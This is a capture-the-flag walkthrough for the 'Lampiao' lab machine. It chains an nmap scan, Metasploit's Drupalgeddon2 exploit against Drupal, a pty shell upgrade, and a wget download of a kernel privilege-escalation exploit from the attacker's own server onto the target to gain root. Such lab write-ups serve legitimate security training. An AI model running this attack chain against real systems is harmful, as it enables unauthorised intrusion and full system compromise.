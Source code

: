 # Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898

![](images/scan1.png)

Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**.      
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         

![](images/meterpreter1.png)

Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```   

I checked the kernel version on the system      

![](images/kernel.png)      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the target machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://ip_address:port/40847.cpp
```

Follow the instructions in the Cpp file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.

![](images/root.png)

Navigate to the root and home directories to find the flags.
